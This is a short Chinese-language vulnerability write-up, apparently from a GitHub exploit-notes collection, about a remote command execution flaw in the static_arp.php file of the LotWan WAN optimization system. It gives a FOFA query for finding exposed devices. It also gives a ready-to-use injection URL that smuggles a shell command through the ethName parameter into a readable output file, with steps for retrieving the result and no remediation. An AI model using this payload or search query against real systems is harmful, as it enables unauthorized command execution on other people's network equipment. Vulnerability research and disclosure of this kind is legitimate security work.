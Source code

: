 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## FOFA

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182832800](./images/202205191828884.png)

存在漏洞的文件为

```
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![image-20220519182841776](./images/202205191828819.png)

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182859597](./images/202205191828666.png)